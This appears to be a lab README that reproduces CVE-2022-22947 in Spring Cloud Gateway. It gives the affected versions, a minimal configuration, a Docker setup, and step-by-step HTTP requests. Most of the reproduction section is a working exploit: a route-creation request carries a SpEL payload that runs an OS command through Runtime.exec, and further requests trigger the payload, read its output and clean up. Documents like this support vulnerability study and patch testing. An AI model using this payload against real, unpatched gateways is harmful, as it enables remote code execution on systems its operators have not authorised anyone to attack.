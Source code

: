# Spring Cloud Gateway Actuator API SpEL Code Injection (CVE-2022-22947)

[中文版本(Chinese version)](README.zh-cn.md)

## Affected / Fixed / Preconditions

- **Affected**: 3.1.0, 3.0.0–3.0.6
- **Fixed**: 3.1.1, 3.0.7
- **Preconditions**
  - The project includes `spring-boot-starter-actuator`
  - `management.endpoint.gateway.enabled: true`
  - `management.endpoints.web.exposure.include` includes `gateway` (or `*`)
  - `/actuator/gateway/**` is exposed to the network and accessible without authentication or filtering.
  - (Optional) If the management port is separated, access the actuator via `management.server.port`.

Spring Cloud Gateway provides a library for building an API Gateway on top of Spring WebFlux.

Applications using Spring Cloud Gateway versions 3.1.0 and 3.0.0–3.0.6 are vulnerable when the Gateway Actuator endpoint is enabled, exposed, and unsecured. The issue is fixed in 3.1.1 and 3.0.7. A remote attacker can craft a malicious request to achieve arbitrary code execution on the host.

## Minimal configuration (for PoC)

```yaml
server:
  port: 8080

management:
  server:
    port: 8080        # Use a separate port (e.g., 9090) when separating the management port
  endpoints:
    web:
      exposure:
        include: gateway
  endpoint:
    gateway:
      enabled: true

```

## Vulnerability Environment

```bash
mvn -q -DskipTests package
cp target/*.jar target/app.jar
docker compose up -d

```

After server is started, browse the `http://your-ip:8080` to see an example page.

## Vulnerability Reproduction

Firstly, send the following request to add a route which contains an evil SpEL expression:

```http
POST /actuator/gateway/routes/hacktest HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
Content-Type: application/json
Content-Length: 329

{
  "id": "hacktest",
  "predicates": [{ "name": "Path", "args": { "pattern": "/poc/**" } }],
  "filters": [{
    "name": "AddResponseHeader",
    "args": {
      "name": "Result",
      "value": "#{new String(T(org.springframework.util.StreamUtils).copyToByteArray(T(java.lang.Runtime).getRuntime().exec(new String[]{\"id\"}).getInputStream()))}"
    }
  }],
  "uri": "http://example.com"
}
```

![Add route request](1.png)

Secondly, refresh the gateway. The SpEL expression will be executed in this step:

```http
POST /actuator/gateway/refresh HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 0


```

![Refresh trigger](2.png)

Thirdly, send the following request to retrieve the result:

```http
GET /actuator/gateway/routes/hacktest HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 0


```

![Retrieve route result](3.png)

Afterward, send a DELETE request to remove our evil route:

```http
DELETE /actuator/gateway/routes/hacktest HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close


```

![Delete route](4.png)

Finally, refresh the gateway again:

```http
POST /actuator/gateway/refresh HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 0


```

### Quick verification (Windows / Git Bash)

```bash
# Register route and verify header
cat > payload.json <<'EOF'
{
  "id": "hack",
  "order": -1,
  "predicates": [{ "name": "Path", "args": { "pattern": "/poc/**" } }],
  "filters": [
    { "name": "SetPath", "args": { "template": "/headers" } },
    { "name": "AddResponseHeader", "args": { "name": "X-Check", "value": "hello" } }
  ],
  "uri": "https://httpbin.org"
}
EOF

curl -s -X POST http://127.0.0.1:8080/actuator/gateway/routes/hack \
  -H "Content-Type: application/json" --data @payload.json
curl -s -X POST http://127.0.0.1:8080/actuator/gateway/refresh
curl -s -D - -o /dev/null http://127.0.0.1:8080/poc   # should show 'X-Check: hello'


```

![Screenshot of successful header injection](images/CVE-2022-22947Poc.png)


### Cleanup (for Quick verification)

```bash
curl -s -X DELETE http://127.0.0.1:8080/actuator/gateway/routes/hack
curl -s -X POST   http://127.0.0.1:8080/actuator/gateway/refresh

```

### References

- [Spring Advisory: CVE-2022-22947](https://spring.io/security/cve-2022-22947)
- [NVD: CVE-2022-22947](https://nvd.nist.gov/vuln/detail/CVE-2022-22947)
- [VMware Tanzu Advisory](https://tanzu.vmware.com/security/cve-2022-22947)
- [Blog: SpEL casting and evil beans](https://wya.pl/2022/02/26/cve-2022-22947-spel-casting-and-evil-beans/)